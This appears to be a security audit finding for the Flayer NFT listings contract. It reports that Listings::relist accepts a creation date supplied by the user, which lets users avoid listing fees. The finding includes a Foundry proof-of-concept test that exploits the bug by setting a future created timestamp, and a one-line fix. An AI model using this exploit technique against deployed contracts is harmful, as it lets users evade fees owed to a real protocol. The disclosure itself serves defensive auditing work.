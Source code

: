 Wobbly Neon Hyena

Medium

# `Listings::relist` is not reseting the listing's created date, allowing users to bypass listing fees

### Summary

When creating a newly created listing, users are allowed to pass a created date, however, this is being overridden in `Listings::createListings` and is set to `block.timestamp`, which makes sense. This is done in `Listings::_mapListings`:
```solidity
function _mapListings(CreateListing calldata _createListing, uint _tokenIds) private returns (uint tokensReceived_) {
    // Loop through our tokens
    for (uint i; i < _tokenIds; ++i) {
        // Create our initial listing and update the timestamp of the listing creation to now
        _listings[_createListing.collection][_createListing.tokenIds[i]] = Listing({
            owner: _createListing.listing.owner,
            created: uint40(block.timestamp),
            duration: _createListing.listing.duration,
            floorMultiple: _createListing.listing.floorMultiple
        });
    }

    // Our user will always receive one ERC20 per ERC721
    tokensReceived_ = _tokenIds * 1 ether;
}
```
Relisting is the same as fulfilling a listing and creating a new listing in the same step, however, when relisting a listing the user is also allowed to pass a creation date. But the issue here is that `Listings::relist` is not overriding that date, unlike `Listings::createListings`.

This allows users to pass custom creation dates for their listings and manipulate the fees/refund calculation in `Listings::_resolveListingTax`, bypassing listing fees.

### Root Cause

`Listings::relist` is not resetting the created date of the newly created listing, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625-L672).

### Impact

Users can bypass the listing fees.

### PoC

Add the following test in `flayer/test/Listings.t.sol`:

```solidity
function test_CanPassCustomCreatedDate() public {
    vm.warp(block.timestamp + 365 days);

    address bob = address(1);
    address alice = address(2);
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );

    uint startBalance = 5 ether;
    deal(address(collectionToken), bob, startBalance);
    deal(address(collectionToken), alice, startBalance);

    uint256 _tokenId = 0;
    erc721a.mint(address(this), _tokenId);
    erc721a.setApprovalForAll(address(listings), true);

    // Create a normal liduid listing
    IListings.CreateListing[]
        memory _listings = new IListings.CreateListing[](1);
    collectionToken.approve(address(listings), type(uint).max);
    _listings[0] = IListings.CreateListing({
        collection: address(erc721a),
        tokenIds: _tokenIdToArray(_tokenId),
        listing: IListings.Listing({
            owner: payable(address(this)),
            created: uint40(block.timestamp),
            duration: 10 days,
            floorMultiple: 200
        })
    });
    listings.createListings(_listings);

    // Bob relicsts the listing with a custom created date
    vm.startPrank(bob);
    collectionToken.approve(address(listings), type(uint).max);
    listings.relist(
        IListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(_tokenId),
            listing: IListings.Listing({
                owner: payable(bob),
                created: uint40(block.timestamp + 8 days),
                duration: 8 days,
                floorMultiple: 120
            })
        }),
        false
    );
    vm.stopPrank();

    // Listing's created date is after 8 days
    assertEq(
        listings.listings(address(erc721a), _tokenId).created,
        uint40(block.timestamp + 8 days)
    );

    // Some time passes
    vm.warp(block.timestamp + 8 days);

    // Bob doesn't hold any balances in the escrow
    assertEq(listings.balances(bob, address(collectionToken)), 0);

    // Alice buys the listing
    vm.startPrank(alice);
    collectionToken.approve(address(listings), type(uint).max);
    uint256[][] memory tokenIdsOut = new uint256[][](1);
    tokenIdsOut[0] = new uint256[](1);
    tokenIdsOut[0][0] = _tokenId;
    listings.fillListings(
        IListings.FillListingsParams({
            collection: address(erc721a),
            tokenIdsOut: tokenIdsOut
        })
    );
    vm.stopPrank();

    // Bob holds the balance in the escrow, knowing that all tax should be paid as fees
    assertGt(listings.balances(bob, address(collectionToken)), 0.01 ether);
}
```

### Mitigation


```diff
function relist(CreateListing calldata _listing, bool _payTaxWithEscrow) public nonReentrant lockerNotPaused {
    // Load our tokenId
    address _collection = _listing.collection;
    uint _tokenId = _listing.tokenIds[0];

    // Read the existing listing in a single read
    Listing memory oldListing = _listings[_collection][_tokenId];

    // Ensure the caller is not the owner of the listing
    if (oldListing.owner == msg.sender) revert CallerIsAlreadyOwner();

    // Load our new Listing into memory
    Listing memory listing = _listing.listing;

    // Ensure that the existing listing is available
    (bool isAvailable, uint listingPrice) = getListingPrice(_collection, _tokenId);
    if (!isAvailable) revert ListingNotAvailable();

    // We can process a tax refund for the existing listing
    (uint _fees,) = _resolveListingTax(oldListing, _collection, true);
    if (_fees != 0) {
        emit ListingFeeCaptured(_collection, _tokenId, _fees);
    }

    // Find the underlying {CollectionToken} attached to our collection
    ICollectionToken collectionToken = locker.collectionToken(_collection);

    // If the floor multiple of the original listings is different, then this needs
    // to be paid to the original owner of the listing.
    uint listingFloorPrice = 1 ether * 10 ** collectionToken.denomination();
    if (listingPrice > listingFloorPrice) {
        unchecked {
            collectionToken.transferFrom(msg.sender, oldListing.owner, listingPrice - listingFloorPrice);
        }
    }

    // Validate our new listing
    _validateCreateListing(_listing);

    // Store our listing into our Listing mappings
+   listing.created = uint40(block.timestamp);
    _listings[_collection][_tokenId] = listing;

    // Pay our required taxes
    payTaxWithEscrow(address(collectionToken), getListingTaxRequired(listing, _collection), _payTaxWithEscrow);

    // Emit events
    emit ListingRelisted(_collection, _tokenId, listing);
}
```